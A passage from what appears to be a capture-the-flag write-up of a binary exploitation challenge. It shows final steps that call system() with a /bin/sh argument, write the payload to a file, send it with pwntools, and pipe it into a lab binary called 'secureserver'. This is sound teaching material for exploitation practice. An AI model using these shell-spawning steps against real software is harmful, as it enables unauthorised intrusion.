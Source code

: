 * The <mark style="color:yellow;">value</mark> is of course `binsh`

Lastly, we will make a <mark style="color:yellow;">call to</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`system()`</mark>.

NOTE: Not shown, however, we then write our payload to a file named, payload via:

```python
write('payload', payload)
```

We will then use `sendlineafter` to deliver our `payload` variable after the : that is found in console which is the last character before awaiting STDIN from the user of the program:

```python
io.sendlineafter(b':', payload)
```

### Automated Result

```
python3 exploit.py
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation Result

```
cat payload - | ./secureserver
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
